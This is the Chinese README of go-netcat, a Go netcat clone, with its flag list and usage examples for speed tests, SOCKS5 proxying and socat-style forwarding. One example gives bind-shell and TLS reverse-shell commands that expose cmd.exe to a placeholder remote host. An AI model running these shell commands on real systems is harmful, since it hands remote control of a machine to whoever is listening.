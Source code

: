 ## go-netcat 简介
   golang版 netcat
   
## 使用方法
```
Usage of gonc.exe:
  -C    enable CRLF
  -auth string
        user:password (for SOCKS5 proxy)
  -bind string
        ip:port
  -exec string
        runs a command for each connection
  -inprogress
        show transfer progress
  -keep-open
        keep listening after client disconnects
  -l    listen mode
  -outprogress
        show transfer progress
  -s5 string
        ip:port (SOCKS5 proxy)
  -sendfile string
        path to file to send (optional)
  -sni string

  -stderr
        when -exec, Merge stderr into stdout
  -tls
        Enable TLS connection
  -tls10

  -tls11

  -tls12

  -tls13

  -u    use UDP protocol
```

## 例子
- 发送和统计传输速度，内置/dev/zero和/dev/urandom实现，这样windows下也可以

    `gonc.exe -sendfile /dev/zero -outprogress x.x.x.x 1234`

    `13040386048 bytes (12.1 GiB) copied, 00:00:04, 2.6 GiB/s`

    另一端用

    `gonc.exe -l 1234 > NUL`

- 支持使用socks5代理

    `gonc.exe -s5 s.s.s.s:port x.x.x.x 1234`

- 支持监听或反弹shell
    
    监听

    `gonc.exe -tls -keep-open -exec cmd.exe -stderr -l 1234`

    反弹

    `gonc.exe -tls -exec cmd.exe -stderr x.x.x.x 1234`

- 还可以像socat那样建立左右两个通道转发数据

    `gonc.exe -keep-open -exec "./gonc -tls www.baidu.com 443" -l 8000`
    
    另一端用

    `gonc.exe 127.0.0.1 8000 > NUL`
